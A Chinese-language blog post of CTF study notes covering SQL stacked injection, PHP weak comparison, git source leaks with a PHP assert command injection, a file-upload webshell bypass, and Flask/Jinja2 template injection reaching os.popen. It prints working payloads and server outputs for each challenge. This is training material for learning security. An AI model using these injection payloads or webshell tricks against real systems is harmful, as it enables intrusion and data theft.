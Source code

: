 ```yaml
---
layout: post 
title: "2020.3.15学习总结"
date: 2020-03-15
author: su29029
tags: Web
---
```

### sql堆叠注入[stack injection]
sql注入中，当我们无法使用select等查询语句时[通常来说是被过滤了]，我们可以考虑尝试堆叠注入。所谓堆叠注入，顾名思义，就是一次性执行多条sql语句。我们知道sql语句以分号```;```结束，故如果我们使用分号提前结束前一条sql语句，然后再在分号后面执行我们想执行的语句，最后注释掉原本后面的sql语句段，就能实现堆叠注入的效果，从而造成了sql注入。  
不过sql堆叠注入的利用条件有限，通常只有在后台sql允许一次执行多条语句时才能利用。以一个题来举例子：  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5417&page=1  
拿到题目先尝试```'```发现sql报错，故判断存在sql注入点。随后```1'or '1'='1```，发现有回显，随后借助```order by```发现有两列，但尝试union select查询时发现了下面这条提示：  
<img src="/assets/img/20200315学习总结/20200315学习总结1.jpg">  
发现select，update，drop等等关键词都被过滤了，而且发现通过大小写，加注释等方式无法绕过，故只能放弃这一注入方式。随后尝试堆叠注入。  
尝试显示一下所有数据库和所有数据表。  
<img src="/assets/img/20200315学习总结/20200315学习总结2.jpg">  
<img src="/assets/img/20200315学习总结/20200315学习总结3.jpg">  
随后显示出words表和1919810931114514表的列：  
<img src="/assets/img/20200315学习总结/20200315学习总结4.jpg">  
<img src="/assets/img/20200315学习总结/20200315学习总结5.jpg">  
发现在19198109931114514表中存在我们想要的flag，且查询的时候是查询words表里的id，故我们尝试更改表名并把flag列名修改成id列名，19198109931114514表名修改成words表名。  
最终payload：```1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100)```  
<img src="/assets/img/20200315学习总结/20200315学习总结6.jpg">  
最后通过```1'or '1'='1 #```得到flag。  
<img src="/assets/img/20200315学习总结/20200315学习总结7.jpg">  
### php == 弱类型比较
php中有两种比较方式，```==```和```===```，其中==在进行比较的时候，会先将字符串类型转化成相同，再比较，而===在进行比较的时候，会先判断两种字符串的类型是否相等，再比较。举几个例子：  
<img src="/assets/img/20200315学习总结/20200315学习总结8.jpg">  
当php比较字符串和数字时，会将字符串向数字尝试转换，字符串的开始部分决定了它的值，如果该字符串以合法的数值开始，则使用该数值，否则值为0。但当字符串中出现.,e,E等字符时，如果字符前后都可转化为合法数字，则.会使字符串转化为小数，e,E会将字符串转换为科学计数法表示的数字。布尔值和数字比较时，true和大于等于1的数弱类型相等，false和0相等。  
### git源码泄露
git是一个是一个开源的分布式版本控制系统，可以有效、高速地处理从很小到非常大的项目版本管理。而初始化一个git目录时，会产生一个.git的文件夹，如果没有处理好则会造成git源码泄露。git源码可以通过GitHack来获取文件。以一个题目来举例子。  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5002&page=1  
拿到题目收集一下信息，F12发现element的注释里有个flag，访问发现为空。发现about页面提示使用了git，判断存在git源码泄露。  
<img src="/assets/img/20200315学习总结/20200315学习总结9.jpg">  
访问/.git/目录，发现果然存在git源码泄露。  
<img src="/assets/img/20200315学习总结/20200315学习总结10.jpg">  
随后使用[GitHack](https://github.com/lijiejie/GitHack)将源码还原。  
<img src="/assets/img/20200315学习总结/20200315学习总结11.jpg">  
打开flag.php，发现内容是空的。  
<img src="/assets/img/20200315学习总结/20200315学习总结12.jpg">  
打开index.php看看，发现了关键代码：  
```
<?php

if (isset($_GET['page'])) {
	$page = $_GET['page'];
} else {
	$page = "home";
}

$file = "templates/" . $page . ".php";

// I heard '..' is dangerous!
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");

// TODO: Make this look nice
assert("file_exists('$file')") or die("That file doesn't exist!");

?>
```
<img src="/assets/img/20200315学习总结/20200315学习总结13.jpg">  
发现对page的内容只过滤了```..```，故尝试通过闭合连接字符串和执行系统命令来获取flag。故构造如下payload：```'.system("cat ./templates/flag.php").'```最后在注释里面获得flag。  
<img src="/assets/img/20200315学习总结/20200315学习总结14.jpg">  
### 文件上传
题目链接：https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Upload
打开题目发现有一个文件上传的接口，随便上传一个1.jpg看看，发现提示Not Image。  
<img src="/assets/img/20200315学习总结/20200315学习总结15.jpg">  
修改请求，写入一句话木马，并修改文件名为1.php，再次上传，发现提示错误。
<img src="/assets/img/20200315学习总结/20200315学习总结16.jpg">  
使用phtml后缀绕过，再次提交，依然发现错误。  
<img src="/assets/img/20200315学习总结/20200315学习总结17.jpg">  
说明后台对文件内容也进行了分析，提示发现```<?```故尝试通过```<script language="php"></script>```绕过，发现成功上传木马。  
<img src="/assets/img/20200315学习总结/20200315学习总结18.jpg">  
下面就简单了，使用蚁剑连接。然而发现直接连接/1.phtml会报错，故猜测/upload/1.phtml路径，发现成功连接。  
<img src="/assets/img/20200315学习总结/20200315学习总结19.jpg">  
(发现了好多不同的文件后缀，应该除了.phtml其他格式应该也能绕过吧，回头都试试嗯)
后面搜一搜服务器，flag就到手了。  
<img src="/assets/img/20200315学习总结/20200315学习总结20.jpg">  
### python flask 模板注入
python的flask框架使用Jinja2作为模板渲染引擎，如果render_template_string函数在渲染模板的时候使用了%s来动态的替换字符串，这里将造成ssti漏洞。Jinja2中{{}}是变量包裹标识符，它会将{{}}中的内容当作变量解析替换，如果我们的url中也含有{{}}的话，就会造成ssti。  
以一个题目举例子：  
题目链接：https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5408&page=1  
打开题目提示python template injection，尝试{{2×3}}发现表达式被执行，故存在ssti。  
<img src="/assets/img/20200315学习总结/20200315学习总结21.jpg">  
我们现在需要考虑借助这个ssti获得服务器的控制台权限。因为是python的框架，所以我们需要使用python来获取控制台权限，我们想到了```os.system```和```os.popen```两个方法，前者返回**退出状态码**，后者以**file形式**返回**输出内容**。这里我们要看到内容，故选择```os.popen```。    

那么怎么找到这个方法呢，python为我们提供了完整的查找链：  
```
__class__:返回对象所属类；
__mro__:返回一个类所继承的基类元组，方法在解析按照元组的顺序解析；
__base__:返回该类所继承的基类；
__subclasses__:每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的引用的列表；
__init__:类的初始化方法；
__globals__:对包含函数全局变量的字典的引用。
```  

ok，我们可以开始操作了。  
首先找到当前变量所在的类。
```
''.__class__
```
服务器返回：  
```
URL http://111.198.29.45:59359/<type 'str'> not found
```
这个回复告诉我们，当前变量所在的类是str。   
随后我们找到它的基类。   
```
''.__class__.__mro__
```
服务器返回：  
```
URL http://111.198.29.45:59359/(<type 'str'>, <type 'basestring'>, <type 'object'>) not found
```  
基类也有了。   
下一步找到任意一个基类的引用列表。
```
''.__class__.__mro__[2].__subclasses__()
```
服务器返回了一大串，我们找到os所在的```site._Printer```类，它在第72位，即```__subclasses__()[71]```。   
于是我们可以开始读取命令行输出了。   
```
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()
```
服务器返回：  
```
URL http://111.198.29.45:59359/fl4g index.py not found
```  
最后一步，读取fl4g。  
```
''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('cat fl4g').read()
```
服务器返回：  
```
URL http://111.198.29.45:59359/ctf{f22b6844-5169-4054-b2a0-d95b9361cb57} not found
```  
flag到手。  
